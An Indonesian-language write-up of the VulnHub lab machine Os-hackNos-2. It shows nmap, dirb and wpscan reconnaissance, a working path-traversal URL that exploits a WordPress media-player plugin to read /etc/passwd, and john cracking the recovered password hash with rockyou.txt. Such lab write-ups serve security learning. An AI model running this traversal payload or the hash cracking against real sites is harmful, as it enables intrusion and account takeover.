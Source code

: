 ```yaml
---
title: "[VulnHub] Os-hackNos-2 WriteUp"
date: 2019-04-18T21:24:30-04:00
categories:
  - blog
tags:
  - vulnhub
  - writeup
  - easy
---
```


##Information Gathering
###Nmap
`nmap -sV -sC -p- hacknos.vh -oN initial.nmap -v`
![nmap](/assets/images/Os-HackNos-2/1.jpg)
Dari hasil portscan diatas server cuma menjalankan SSH dan web server.
 
###Directory Scanning
`dirb http://hacknos.vh /usr/share/wordlists/common.txt`
![dirb](/assets/images/Os-HackNos-2/2.jpg)
Server menggunakan CMS Wordpress.
  
###WPscan
wpscan adalah salah satu tools yang sering digunakan untuk melakukan scanning di web yang menjalankan WordPress. Umumnya wpscan digunakan untuk mengetahui versi wordpress, tema, dan plugin yang terpasang.
`wpscan --url http://hacknos.vh/tsweb/`
![wpscan](/assets/images/Os-HackNos-2/3.jpg)

Ternyata web target menggunakan plugin grace-media-player, cari nama plugin + ‘vulnerability’ maka ketemu bug LFI [[exploit.db]](https://www.exploit-db.com/exploits/46537). 
>_**Local File Inclusion (LFI)** adalah kerentanan/vulnerability yang umum ditemukan pada aplikasi web. Kerentanan ini memungkinkan penyerang/attacker untuk menyertakan file lokal yang tersimpan di server agar dapat menjadi bagian dari proses eksekusi aplikasi._ [(harryadinanta.com)](https://harryadinanta.com/exploitasi/2014/08/08/Local-File-Inclusion)

##Attacking
Setelah mengetahui ada bug LFI di web diatas, coba buka link yang kemungkinan vulnerable.
`http://hacknos.vh/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd`
![lfi](/assets/images/Os-HackNos-2/4.jpg)

Dan kita mendapatkan informasi user dan group di server dan ada hash password user ‘flag’ dibawah :D

Langkah selanjutnya adalah password cracking menggunakan john. Pertama copy data hash user flag ke file txt.
`echo 'flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/' > flag_hash`
Lalu crack dengan john.
`john flag_hash /usr/share/wordlists/rockyou.txt`
>_**rockyou.txt** contains 14,341,564 unique passwords, used in 32,603,388 accounts. Kali Linux provides this dictionary file as part of its standard installation.. gampangnya rockyou.txt adalah file berisi password dengan kekuatan lemah._

Tunggu selesai lalu ~~siap dihidangkan~~ buka flag_hash menggunakan john.
`john --show flag_hash`
![flaghash](/assets/images/Os-HackNos-2/5.jpg)

